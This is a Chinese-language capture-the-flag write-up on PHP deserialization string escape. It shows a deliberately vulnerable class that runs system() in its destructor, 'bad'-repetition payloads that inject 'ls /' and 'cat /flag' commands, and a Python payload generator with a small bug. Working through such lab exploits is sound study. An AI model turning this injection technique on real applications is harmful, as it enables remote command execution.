### NewStar2023 week4 逃

>  反序列化字符串逃逸
>
> - https://xz.aliyun.com/t/9213?time__1311=n4%2BxnD0DuAG%3DoxGqGNnmDUrhzKi%3DrrszH4D
> - https://zhuanlan.zhihu.com/p/330670521

---

```php
<?php
highlight_file(__FILE__);
function waf($str){
    return str_replace("bad","good",$str);
}

class GetFlag {
    public $key;
    public $cmd = "whoami";
    public function __construct($key)
    {
        $this->key = $key;
    }
    public function __destruct()
    {
        system($this->cmd);
    }
}

unserialize(waf(serialize(new GetFlag($_GET['key'])))); www-data www-data
```

重点在于：

```php
function waf($str){
    return str_replace("bad","good",$str);
}
```

每次替换字符串增加一

```php
$a = new GetFlag("123");
echo serialize($a);
//O:7:"GetFlag":2:{s:3:"key";s:3:"123";s:3:"cmd";s:6:"whoami";}
```



查一下flag在不在根目录---`";s:3:"cmd";s:4:"ls /";}`--->24个字符构造24个bad

```(空)
?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:4:"ls /";}
```

![image-20241103221851756](https://gitee.com/bx33661/image/raw/master/path/image-20241103221851756.png)

最后读取flag

```python
?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}
?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}
```

![image-20241103222440061](https://gitee.com/bx33661/image/raw/master/path/image-20241103222440061.png)





---

```python
def bad_gen(num):
    return "bad"*num

def calc(str):
    num = 0 
    for i in str2:
        num+=1
    return num

print("------start------")
arg = input("你需要的参数")
arg_len = len(arg)
str2 = f'";s:3:"cmd";s:{arg_len}:"{arg}";'
str3 = str2 + '}'
print("原始值：",str3)
num_need = calc(str3)
res_bad = bad_gen(num_need)
payload = res_bad + str3
print("------最终结果-----")
print(payload)
```

